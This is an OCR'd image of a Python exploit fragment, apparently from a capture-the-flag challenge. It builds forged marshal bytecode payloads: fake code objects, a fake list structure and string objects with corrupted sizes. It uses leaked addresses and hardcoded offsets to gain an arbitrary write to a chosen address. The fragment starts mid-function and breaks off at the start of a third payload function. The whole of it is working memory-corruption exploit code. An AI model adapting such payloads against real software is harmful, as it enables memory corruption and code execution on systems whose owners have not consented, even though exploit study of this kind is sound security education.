 ```python
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_CONST)
    code = p8(100) + p32(0)
    pay += string_object(code)
    # consts
    ptr = leak + 0x55702a874d00 - 0x55702a85c6e0
    pay += float_object(p64(ptr+8)+p64(ptr+0x10)+p64(ptr+0x18)+p64(where)) 
    # names, varnames, freevars, cellvars, filename, name
    pay += string_object(b"x") * 6
    # firstlineno
    pay += p32(0)
    pay += string_object(b"x")
    return pay

def exp1(leak, where):
    magic = 0x0a0df303
    date = 0
    pay = p32(magic) + p32(date)
    # a code object with ref, so that None is pushed to list[0]
    pay += p8(0x80^ord("c"))
    # argsize nlocals stacksize flags
    pay += p32(0) + p32(0) + p32(0) + p32(0)
    # code (LOAD_CONST)
    code = p8(100) + p32(0)
    pay += string_object(code)
    # consts, names, varnames, freevars, cellvars, filename, name
    ptr = leak + 0x55a27f113b70 - 0x55a27f0e26e0
    # fake RList object -> head
    fakelist = p64(ptr+8)
    # data, next
    fakelist += p64(ptr+0x18) + p64(0)
    # tuple object
    fakelist += p64(ord("(")) + p64(ptr+0x28)
    # RList structure -> head
    fakelist += p64(ptr+0x30)
    # data, next
    fakelist += p64(ptr+0x40) + p64(ptr+0x50)
    # list[0]: string object
    fakelist += p64(ord("s")) + p64(ptr+0x90)
    # data, next
    fakelist += p64(ptr+0x60) + p64(ptr+0x70)
    # list[1]: string object, points to calloced buffer
    calloced = leak + 0x55daa8fc6480 - 0x55daa8f7b6e0
    fakelist += p64(ord("s")) + p64(calloced+0xFF)
    # data, next
    fakelist += p64(ptr+0x80) + p64(0)
    # list[2]: string object. now size is -1, we can do pretty much anything
    fakelist += p64(ord("s")) + p64(ptr+0x90+0x100)
    str1 = b"\xcc"*0xFE
    str2 = b"\xdd"*(0x55608a8ca5c0 - 0x55608a8ca580) + p64(where)
    fakelist += str1.ljust(0x100, b"\x00")
    fakelist += str2.ljust(0x100, b"\x00")

    fakelist = fakelist.ljust(0x800, b"\x00")
    # a fake RList structure
    pay += string_object(fakelist)
    pay += string_object(b"x") * 6
    pay += p32(0)
    pay += string_object(b"x")
    return pay

def exp2(what):
    magic = 0x0a0df303
```